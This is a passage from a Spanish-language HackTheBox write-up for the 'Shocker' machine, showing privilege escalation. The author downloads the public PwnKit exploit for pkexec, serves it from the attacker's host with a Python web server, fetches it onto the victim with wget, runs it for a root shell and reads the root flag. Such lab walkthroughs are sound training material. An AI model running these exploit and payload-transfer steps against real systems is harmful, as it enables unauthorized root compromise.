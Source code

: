 ```bash
/bin/mount
```
Enseguida nos llama la atención `/usr/bin/pkexec`. Con la herramienta PwnKit del repositorio de GitHub de [ly4k](https://github.com/ly4k/PwnKit) procedemos a descargarla en nuestro directorio de trabajo `exploits`

```bash
cd ../exploits
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```
Una vez descargada la herramienta creamos un servidor http para servir el recurso a la máquina víctima

```bash
python3 -m http.server 80
```
Con el servidor http en marcha procedemos a descargar la herramienta en la máquina víctima en el directorio `/tmp`

```bash
cd /tmp
shelly@Shocker:/tmp$ wget http://10.10.14.94/PwnKit
--2022-10-30 07:43:15--  http://10.10.14.94/PwnKit
Connecting to 10.10.14.94:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.04s   

2022-10-30 07:43:15 (410 KB/s) - 'PwnKit' saved [18040/18040]
```
Ahora sólo nos queda dar permisos de ejecución al binario y ejecutarlo para obtener una shell con el usuario de privilegios elevados.

```bash
shelly@Shocker:/tmp$ chmod +x PwnKit 
shelly@Shocker:/tmp$ ./PwnKit 
root@Shocker:/tmp# whoami
root
```

Ya sólo nos queda leer la flag de root

```bash
root@Shocker:/tmp# find / -name root.txt 
/root/root.txt
root@Shocker:/tmp# cat /root/root.txt
f8940232e337fe39f***************
```

Hemos completado la máquina **Shocker** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Shocker/pwned.png">
